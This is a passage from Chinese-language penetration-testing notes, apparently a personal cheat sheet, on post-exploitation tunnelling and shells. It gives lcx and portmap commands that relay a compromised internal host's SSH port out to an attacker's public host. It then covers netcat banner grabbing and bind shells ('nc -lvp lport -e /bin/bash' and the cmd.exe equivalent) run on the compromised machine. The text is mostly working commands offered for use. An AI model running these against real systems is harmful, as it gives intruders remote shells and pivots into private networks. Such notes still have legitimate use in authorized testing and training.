 ```
lcx.exe -tran 53 <目标主机 IP 地址> 3389
```

### Linux

* 内网端口转发

```
内网失陷主机
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 <公网主机 IP> -p2 4444

公网代理主机
./portmap -m 2 -p1 4444 -h2 <公网主机 IP> -p2 5555
```

此时访问公网主机 IP 的 5555 端口，就会访问到内网失陷主机的 22 端口了。

## 2、netcat 使用

nc 下载地址：[https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

nc 全称 netcat，它的功能很多，这里简单记录下两个常用的功能，其他的比如文件传输、端口扫描等等的就不介绍了，毕竟平时使用频率有一说一还是比较少的。

```
-l 开启监听状态
-v 显示详细信息
-p 指定监听的本地端口
-k 客户端断掉连接时，服务端依然保持运行
-e 将传入的信息以命令执行
-n 直接使用 IP 地址，不进行 dns 解析过程
```

### 获取 banner 信息

个人觉着最常用的功能，这个不仅可以用来查看 banner 信息，还能用来判断端口是否开放。

```
nc -vv rhost rport
```

```
> nc -v 172.16.214.43 22
Connection to 172.16.214.43 port 22 [tcp/ssh] succeeded!
SSH-2.0-OpenSSH_8.4p1 Debian-3
```

### 反弹shell

个人觉着这个也是最常用的功能，可以使用 -e 指定 /bin/bash 进行反弹，也可以直接 -c 指定 bash 或者 cmd

**-e 指定反弹 shell**

```
# 失陷主机
nc -lvp lport -e /bin/bash		# linux 主机
nc -lvp lport -e c:\windows\system32\cmd.exe 	# windows 主机

# 控制端
nc rhost rport
```
